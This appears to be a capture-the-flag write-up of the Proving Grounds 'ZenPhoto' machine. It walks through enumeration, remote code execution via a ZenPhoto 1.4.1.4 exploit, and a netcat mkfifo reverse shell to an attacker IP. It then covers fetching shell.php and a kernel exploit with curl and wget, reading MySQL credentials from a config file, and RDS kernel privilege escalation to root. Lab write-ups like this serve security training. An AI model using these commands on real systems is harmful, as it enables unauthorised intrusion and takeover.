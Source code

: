 ```yaml
---
title: "ZenPhoto - PG"
author:
  name: 0xKirito
  link: https://github.com/0xKirito
date: 2022-01-15 23:02:44 +05:30
categories: [Writeups, Proving Grounds]
tags: [PG, ZenPhoto, RDS, Kernel Exploit]
render_with_liquid: false
---
```


## Recon & Enumeration

```
# autorecon
nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN full_tcp_nmap.txt 192.168.123.41
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 5.3p1 Debian 3ubuntu7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 83:92:ab:f2:b7:6e:27:08:7b:a9:b8:72:32:8c:cc:29 (DSA)
|_  2048 65:77:fa:50:fd:4d:9e:f1:67:e5:cc:0c:c6:96:f2:3e (RSA)
23/tcp   open  ipp     CUPS 1.4
|_http-server-header: CUPS/1.4
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
80/tcp   open  http    Apache httpd 2.2.14 ((Ubuntu))
|_http-server-header: Apache/2.2.14 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3306/tcp open  mysql   MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2.0 (95%), Linux 2.6.32 (93%), Linux 2.6.35 (93%)
```

### Ffuf 

```
ffuf -u http://192.168.123.41/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -c -t 40 

test  [Status: 301, Size: 315, Words: 20, Lines: 10]
```

- http://192.168.123.41/test/
- Powered by zenPHOTO 
- Google: zenphoto 
- https://github.com/zenphoto/zenphoto 
- This gives us the directory structure so now we can go through files and check for any files with sensitive information, version number, etc to aid in further enumeration 
- If we view the source for `http://192.168.123.41/test/` and search for version or scroll to the bottom, we see version number mentioned there 

```
<!-- zenphoto version 1.4.1.4 [8157] (Official Build) THEME: default (index.php) GRAPHICS LIB: PHP GD library 2.0 { memory: 128M } PLUGINS: class-video colorbox deprecated-functions hitcounter security-logger tiny_mce zenphoto_news zenphoto_sendmail zenphoto_seo  -->
```

- http://192.168.123.41/test/robots.txt

```
Disallow: /test/albums/
Disallow: /test/cache/
Disallow: /test/themes/
Disallow: /test/zp-core/
Disallow: /test/zp-data/
Disallow: /test/page/search/
Disallow: /test/uploaded/
```

---

## Exploitation

- `searchsploit zenphoto`
- [ZenPhoto 1.4.1.4 - 'ajax_create_folder.php' Remote Code Execution](https://www.exploit-db.com/exploits/18083) 
- `php 18083.php 192.168.123.41 /test/`
- `whoami => www-data`
- `curl 192.168.49.123/shell.php -o /var/www/test/shell.php`
- We do not have write access to the web root directory 
- This shell was very restricted so I got another proper reverse shell with netcat 
- `nc -lvnp 23` - since port 23 was also open on the target 
- Then run the following reverse shell one liner from the PHP shell we have: 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.123 23 >/tmp/f
```

---

## Privilege Escalation 

- There is MySQL running on this machine as we know from our nmap scan so I started looking for files with MySQL credentials 
- `cat /var/www/test/zp-data/zp-config.php`

```php
# zp-data/zp-config.php
$conf['mysql_user'] = 'root';
$conf['mysql_pass'] = 'hola';
$conf['mysql_host'] = 'localhost';
$conf['mysql_database'] = 'zenphoto';
```

```sql
mysql> select id, user, name, pass from zp_administrators;
+----+----------------+----------+------------------------------------------+
| id | user           | name     | pass                                     |
+----+----------------+----------+------------------------------------------+
|  1 | administrators | group    | NULL                                     |
|  2 | viewers        | group    | NULL                                     |
|  3 | bozos          | group    | NULL                                     |
|  4 | album managers | template | NULL                                     |
|  5 | default        | template | NULL                                     |
|  6 | newuser        | template | NULL                                     |
|  7 | admin          | admin    | 63e5c2e178e611b692b526f8b6332317f2ff5513 |
+----+----------------+----------+------------------------------------------+
```

- Could not crack that hash so moved on to kernel exploits since this kernel version is really old 
- `uname -a => Linux offsecsrv 2.6.32-21-generic #32-Ubuntu SMP Fri Apr 16 08:10:02 UTC 2010 i686 GNU/Linux`
- LinPEAS suggested RDS kernel exploit and dirtycow 
- Reliable Datagram Sockets (RDS) Linux Privilege Escalation (Linux Kernel 2.6.30 < 2.6.36-rc8) 

```
Possible Exploits:
[+] [CVE-2010-3904] rds
   Details: http://www.securityfocus.com/archive/1/514379
   Exposure: highly probable
   Tags: debian=6.0{kernel:2.6.(31|32|34|35)-(1|trunk)-amd64},ubuntu=10.10|9.10,fedora=13{kernel:2.6.33.3-85.fc13.i686.PAE},[ ubuntu=10.04{kernel:2.6.32-(21|24)-generic} ]
   Download URL: http://web.archive.org/web/20101020044048/http://www.vsecurity.com/download/tools/linux-rds-exploit.c
```

- `wget 192.168.49.123/linux-rds-exploit.c -P /dev/shm/`

```
www-data@offsecsrv:/dev/shm$ gcc linux-rds-exploit.c -o rds-exploit
www-data@offsecsrv:/dev/shm$ chmod +x rds-exploit
www-data@offsecsrv:/dev/shm$ ./rds-exploit
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved rds_proto_ops to 0xf821d980
 [+] Resolved rds_ioctl to 0xf8217090
 [+] Resolved commit_creds to 0xc016dcc0
 [+] Resolved prepare_kernel_cred to 0xc016e000
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...
[*] Got root!
# whoami
root
```

```
root@offsecsrv:/root# 
whoami && hostname && ifconfig | grep inet && cat proof.txt

root
offsecsrv
    inet addr:192.168.123.41  Bcast:192.168.123.255  Mask:255.255.255.0
    inet6 addr: fe80::250:56ff:feba:b881/64 Scope:Link
    inet addr:127.0.0.1  Mask:255.0.0.0
    inet6 addr: ::1/128 Scope:Host
4444cb0a0a33ab90abc85d121d2554
```


